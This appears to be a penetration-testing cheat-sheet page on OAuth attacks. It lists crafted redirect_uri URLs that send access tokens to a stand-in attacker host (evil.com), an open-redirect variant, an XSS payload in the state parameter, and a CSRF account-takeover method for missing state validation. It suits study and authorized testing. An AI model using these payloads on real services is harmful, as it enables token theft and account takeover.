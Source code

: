 ```yaml
---
title: "0Auth Authentication"
draft: false
images: []
menu:
  docs:
    parent: "Wapp"
weight: 100
toc: true
---
```


## Grabbing OAuth Token via redirect_uri
Redirect to a controlled domain to get the access token
```
https://www.example.com/signin/authorize?[...]&redirect_uri=https://demo.example.com/loginsuccessful
https://www.example.com/signin/authorize?[...]&redirect_uri=https://localhost.evil.com
```
Redirect to an accepted Open URL in to get the access token
```
https://www.example.com/oauth20_authorize.srf?[...]&redirect_uri=https://accounts.google.com/BackToAuthSubTarget?next=https://evil.com
```
### Executing XSS via redirect_uri
```
https://example.com/oauth/v1/authorize?[...]&redirect_uri=data%3Atext%2Fhtml%2Ca&state=<script>alert('XSS')</script>
```
### Improper handling of state parameter
This is by far the most common issue I see in OAuth implementations. Very often, the state parameter is completely omitted or used in the wrong way. If a state parameter is nonexistent, or a static value that never changes, the OAuth flow will very likely be vulnerable to CSRF. Sometimes, even if there is a state parameter, the application might not do any validation of the parameter and an attack will work. The way to exploit this would be to go through the authorization process on your own account, and pause right after authorizing. You will then come across a request such as:
```
https://yourtweetreader.com?code=asd91j3jd91j92j1j9d1
```
After you receive this request, you can then drop the request because these codes are typically one-time use. You can then send this URL to a logged-in user, and it will add your account to their account. At first, this might not sound very sensitive since you are simply adding your account to a victim’s account. However, many OAuth implementations are for sign-in purposes, so if you can add your Google account which is used for logging in, you could potentially perform an Account Takeover with a single click as logging in with your Google account would give you access to the victim’s account.